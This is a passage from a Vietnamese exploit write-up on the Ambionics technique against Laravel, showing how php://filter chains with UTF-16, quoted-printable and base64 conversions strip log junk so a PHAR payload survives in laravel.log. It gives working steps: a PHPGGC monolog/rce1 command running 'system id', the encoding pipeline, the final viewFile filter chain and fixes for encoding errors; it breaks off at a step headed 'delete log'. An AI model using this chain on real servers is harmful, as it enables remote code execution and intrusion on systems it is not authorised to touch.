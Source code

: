 Sau nhiều lần thử nghiệm, những researcher của Ambionics đã tìm ra cách để loại bỏ các phần dư thừa để lấy được Payload. Ví dụ với trường hợp như sau:

```
[prefix]PAYLOAD[midfix]PAYLOAD[suffix]
```

Cách mà họ sử dụng là sử dụng chuyển đổi bảng mã UTF-16 sang UTF-8. Vì cứ 2 byte thì sẽ được 1 char theo mã UTF-16 nên convert sang UTF-8 thì  `P\0` -> `P`. Còn các cặp 2 byte ở  prefix, midfix, suffix sẽ bị convert thành junk char giống như dưới đây (và phần junk này sau đó sẽ bị loại bỏ ở bước  base64 decoding):

```bash
echo -ne '[Some prefix ]P\0A\0Y\0L\0O\0A\0D\0[midfix]P\0A\0Y\0L\0O\0A\0D\0[Some suffix ]' > /tmp/test.txt
```
```php
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8/resource=/tmp/test.txt');
卛浯⁥牰晥硩崠PAYLOAD浛摩楦嵸PAYLOAD卛浯⁥畳晦硩崠
```

Ok, giờ ta đã giữ được nội dung của payload, bước tiếp theo là loại bỏ những ký tự nào không phải là ASCII là xong. Tuy nhiên có một vấn đề là nội dung Payload lại hiển thị 2 lần, chúng ta cần phải loại bỏ 1 cái đi mới đúng cấu trúc của file PHAR.
Để giải quyết vấn đề này ta lại nhớ lại là UTF-16 làm việc với hai byte, nên chỉ cần thêm 1 byte vào phần giữa Payload 1 và Payload 2 (như dưới đây là thêm `X` vào sau `D\0`)  thì byte aligment của Payload thứ 2 sẽ bị lệch, dẫn đến Payload 2 bị convert thành junk chars:

```bash
echo -ne '[Some prefix ]P\0A\0Y\0L\0O\0A\0D\0X[midfix]P\0A\0Y\0L\0O\0A\0D\0X[Some suffix ]' > /tmp/test.txt
```
```php
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8/resource=/tmp/test.txt');
卛浯⁥牰晥硩崠PAYLOAD存業晤硩偝䄀夀䰀伀䄀䐀堀卛浯⁥畳晦硩崠
```

Vậy, kết luận chúng ta sẽ có get chain cuối cùng là:

```php
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

## Complete exploit steps
#### Bước 1: Tạo PHPGGC payload và encode nó theo format trên:
```bash
php -d'phar.readonly=0' ./phpggc monolog/rce1 system id --phar phar -o php://output | base64 -w0 | sed -E 's/./\0=00/g'
```
Chú ý, chỉnh sửa một chút ở phía đầu ra Payload, thay thế dấu `==` thành `=3D`. Mình cũng k hiểu vì sao Ambionics chạy được với 2 dấu `=` ở cuối payload, mình chạy toàn bị lỗi 
```
Warning: file_get_contents(): stream filter (convert.quoted-printable-decode): invalid byte sequence in php shell code on line 1
```
Sau một hồi anh em debug thì phát hiện ra phải sửa 1 dấu `=` thành `3D` thì chạy ngon nghẻ, nếu thấy xuất hiện lỗi 
```
Warning: file_get_contents(): iconv stream filter ("utf-16le"=>"utf-8"): invalid multibyte sequence in php shell code on line 1
```
thì phải đệm thêm 1 byte `=00` vào để decode được nhé. 
#### Bước 2: Xoá log
```php
```